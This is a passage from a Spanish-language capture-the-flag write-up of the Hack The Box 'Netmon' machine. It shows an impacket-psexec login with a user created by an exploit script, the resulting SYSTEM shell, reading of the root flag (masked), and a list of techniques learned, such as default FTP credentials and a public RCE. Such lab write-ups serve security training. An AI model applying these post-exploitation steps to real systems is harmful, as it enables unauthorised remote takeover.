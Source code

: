 ## CONEXION CON LA MAQUINA VICTIMA

Usando `impacket-psexec` nos conectamos a la máquina víctima con el usuario creado gracias al script.

```
❯ impacket-psexec pentest@10.10.10.152
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file MAyGnnAc.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service PBCl on 10.10.10.152.....
[*] Starting service PBCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

Ya hemos conseguido comprometer la máquina, solo nos falta encontrar la root flag.
 
## FLAGS

<h3>ROOT.TXT</h3>

```

C:\Users\Administrator\Desktop> type root.txt

321bxxxxxxxxxxxxxxxxxxxxxxxxxxxx

```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Netmon</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con Nmap.
- Conexión por ftp con credenciales por defecto.
- Búsqueda de credenciales en archivos de configuración.
- Reconocimiento web.
- Explotación de una vulnerabilidad pública (RCE).
- Conexión con la máquina post explotación.

## ERRORES
